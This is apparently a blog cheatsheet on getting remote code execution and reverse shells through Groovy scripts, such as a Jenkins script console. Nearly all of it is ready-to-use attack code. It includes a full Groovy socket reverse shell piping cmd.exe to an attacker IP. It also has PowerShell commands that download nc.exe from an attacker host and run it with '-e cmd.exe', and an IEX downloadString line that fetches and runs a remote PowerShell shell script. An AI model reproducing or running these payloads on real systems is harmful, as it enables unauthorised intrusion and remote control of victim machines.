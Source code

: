 ```yaml
---
title: "Groovy Script — Remote Code Execution"
date: 2020-08-24 18:13:44 +0530
categories: [Cheatsheets,Scripts]
tags: [Remote Code Execution,Groovy,RCE,Jenkins, Reverse Shell]
image: /assets/img/Posts/groovy.jpg
---
```


> This cheatsheet describes various methods for executing remote code in Groovy Language to get an reverse shell. 

## Method 1:

```console
String host="10.10.14.25";
int port=1337;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
## Method 2:

#### Testing code execution

```console
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```
#### Uploading nc on victim machine

```console
def process = "powershell -command Invoke-WebRequest 'http://10.10.14.11:8080/nc.exe' -OutFile nc.exe".execute();
println("${process.text}");
```

#### Executing nc to get reverse shell

```console
def process = "powershell -command ./nc.exe 10.10.14.11 9001 -e cmd.exe".execute();
println("${process.text}");
```

## Method 3:

```console
cmd = """ powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.36/Invoke-PowerShellTcp.ps1') """
println cmd.execute().txt
```

